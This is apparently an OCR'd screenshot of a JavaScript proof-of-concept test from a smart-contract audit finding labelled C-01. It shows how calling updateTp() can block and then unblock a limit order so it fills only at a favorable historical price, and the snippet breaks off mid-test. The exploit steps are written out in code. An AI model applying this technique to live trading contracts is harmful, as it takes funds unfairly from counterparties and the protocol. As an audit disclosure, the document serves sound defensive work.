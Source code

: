 ```javascript

  describe('POC for C-01', () => {
    it('[C-01] `UpdateTp()` and `UpdateSL()` can be abused to obtain risk-free trade', async () => {
      limitId = [accounts[0], 0];
      tradeId = [accounts[0], 3];

      console.log("-------------------------");

      let currentBlock = await d.block.getBlockNumber();
      console.log("currentBlock       : %d\n",currentBlock);


      requestTx = await d.diamond.triggerOrder(packNft(ENUMS.PENDING_ORDER_TYPE.LIMIT_OPEN, limitId[0], limitId[1]), { from: gov });
      orderId = getOrderId(requestTx);

      console.log("calling updateTp() to block order execution for fulfill(), by setting a TP that will cancel order due to TP_REACHED");
       await d.diamond.updateTp(0, 1 * 1e10);

      let td = await d.diamond.getTrade(accounts[0], 0);
      let tdInfo = await d.diamond.getTradeInfo(accounts[0], 0);
      console.log("trade.tp           : %d ", td.tp);
      console.log("tpLastUpdatedBlock : %d ",tdInfo.tpLastUpdatedBlock);
      console.log("createdBlock       : %d (used by getPrice() to retrieve historical price)",tdInfo.createdBlock);

      const priceData1 = pack([1499 * 1e10, 1505 * 1e10, 1495 * 1e10, dummyTsSec].map(BigInt), [64, 64, 64, 64].map(BigInt));
      await fulfillOracleRequests(requestTx, d.oracles.slice(0, 3), priceData1);

      td = await d.diamond.getTrade(accounts[0], 3);
      console.log("\n");
      console.log("trade is not registered due to cancellation.");
      console.log("trade.isOpen           : %s ", td.isOpen);

      console.log("-------------------------");

      await d.block.increase(10);
      currentBlock = await d.block.getBlockNumber();
      console.log("currentBlock       : %d\n",currentBlock);


      console.log("Once price is favorable, call updateTp() to unblock the cancellation.");
      await d.diamond.updateTp(0, 2175 * 1e10);

      td = await d.diamond.getTrade(accounts[0], 0);
      tdInfo = await d.diamond.getTradeInfo(accounts[0], 0);
      console.log("trade.tp           : %d ", td.tp);
      console.log("tpLastUpdatedBlock : %d ",tdInfo.tpLastUpdatedBlock);
      console.log("createdBlock       : %d (used by getPrice() to retrieve historical price)",tdInfo.createdBlock);

      console.log("call triggerOrder() to request oracle to fulfill order, with price from original createdBlock.");
      requestTx = await d.diamond.triggerOrder(packNft(ENUMS.PENDING_ORDER_TYPE.LIMIT_OPEN, limitId[0], limitId[1]), { from: gov });
      orderId = getOrderId(requestTx);

      // ignore price data, as this POC just shows that it is possible to delay order execution till price is favorable
```